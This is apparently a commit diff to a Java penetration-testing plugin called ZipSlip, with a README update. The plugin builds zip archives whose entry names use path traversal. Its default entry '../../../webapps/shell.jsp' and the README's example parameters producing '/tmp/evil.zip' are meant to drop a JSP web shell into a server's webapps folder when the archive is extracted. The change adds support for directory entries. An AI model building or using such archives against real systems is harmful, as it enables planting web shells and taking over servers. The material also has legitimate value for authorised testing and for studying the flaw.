

支持压缩目录

diff --git a/src/main/java/me/gv7/woodpecker/plugin/ZipSlip.java b/src/main/java/me/gv7/woodpecker/plugin/ZipSlip.java
@@ -8,6 +8,7 @@ import java.util.zip.ZipEntry;
 import java.util.zip.ZipOutputStream;
 
 public class ZipSlip implements IHelper{
+    private final static String COMPRESS_TYPE_DIR = "DIR";
     private IResultOutput resultOutput;
 
     public String getHelperTabCaption() {
@@ -25,7 +26,7 @@ public class ZipSlip implements IHelper{
         args.add(args1);
 
         IArg compressName = ZipTools.pluginHelper.createArg();
-        compressName.setName("compress_name_1");
+        compressName.setName("compress_file_name_1");
         compressName.setDefaultValue("../../../webapps/shell.jsp");
         compressName.setDescription("解压的路径");
         compressName.setRequired(true);
@@ -47,12 +48,19 @@ public class ZipSlip implements IHelper{
         ZipOutputStream zipOutputStream = new ZipOutputStream(new FileOutputStream(saveFile));
         zipOutputStream.setLevel(Deflater.BEST_COMPRESSION);
         for(Map.Entry<String,String> un:unm.entrySet()){
-            String compressName = un.getKey();
+            String compressName = un.getKey();//.replace("\\","/");
             String filePath = un.getValue();
-            zipOutputStream.putNextEntry(new ZipEntry(compressName));
-            zipOutputStream.write(FileUtil.readFile(filePath));
-            zipOutputStream.flush();
-            this.resultOutput.infoPrintln(String.format("Compress %s to %s finish",filePath,compressName));
+            if(filePath.equals(COMPRESS_TYPE_DIR)){
+                String dirName = compressName.endsWith("/") || compressName.endsWith("\\") ? compressName : compressName + "/";
+                zipOutputStream.putNextEntry(new ZipEntry(dirName));
+                zipOutputStream.flush();
+                this.resultOutput.infoPrintln(String.format("Compress dir  %s finish",compressName));
+            }else{
+                zipOutputStream.putNextEntry(new ZipEntry(compressName));
+                zipOutputStream.write(FileUtil.readFile(filePath));
+                zipOutputStream.flush();
+                this.resultOutput.infoPrintln(String.format("Compress file %s to %s finish",filePath,compressName));
+            }
         }
         zipOutputStream.close();
     }
@@ -62,10 +70,21 @@ public class ZipSlip implements IHelper{
         this.resultOutput = resultOutput;
         LinkedHashMap<String,String> cus = new LinkedHashMap<String, String>();
         for(int i= 0;i<customArgs.size();i++){
-            String cFileName = String.format("compress_name_%s",i+1);
-            String cFile = String.format("compress_file_%s",i+1);
-            if(customArgs.get(cFileName) != null && customArgs.get(cFile) != null){
-                cus.put((String)customArgs.get(cFileName),(String)customArgs.get(cFile));
+            String compressDirName = String.format("compress_dir_name_%d",i+1);
+            String compressFileName = String.format("compress_file_name_%d",i+1);
+            String compressFile = String.format("compress_file_%d",i+1);
+
+            if(customArgs.get(compressDirName) != null && customArgs.get(compressFileName) != null){
+                resultOutput.errorPrintln(String.format("The serial number of %s and %s cannot be the same",compressDirName,compressFileName));
+                return;
+            }
+
+            if(customArgs.get(compressFileName) != null && customArgs.get(compressFile) != null){
+                cus.put((String)customArgs.get(compressFileName),(String)customArgs.get(compressFile));
+            }
+
+            if(customArgs.get(compressDirName) != null){
+                cus.put((String)customArgs.get(compressDirName),COMPRESS_TYPE_DIR);
             }
         }
 

diff --git a/README.md b/README.md
@@ -8,7 +8,22 @@
 * [ ] zip add dirty data
 
 ## 0x02 使用
-生成一个可目录穿到`..\..\..\webapps\shell.jsp`的压缩文件
+生成一个符合如下条件的压缩文件
+
+1. README.md文件
+2. `..\..\..\webapps\shell.jsp`文件
+3. config文件夹
+
+可以如参数如下：
+
+```
+compress_file_name_1=README.md
+compress_file_1=/tmp/readme.md
+compress_file_name_2=../../webapps/shell.jsp
+compress_file_2=/tmp/shell.txt
+compress_dir_name_3=config
+save_file=/tmp/evil.zip
+```
 
 ![](./docs/zip-slip.png)
 
@@ -17,4 +32,3 @@
 测试解压效果，验证是否生效
 
 ![](./docs/unzip-test.png)
-
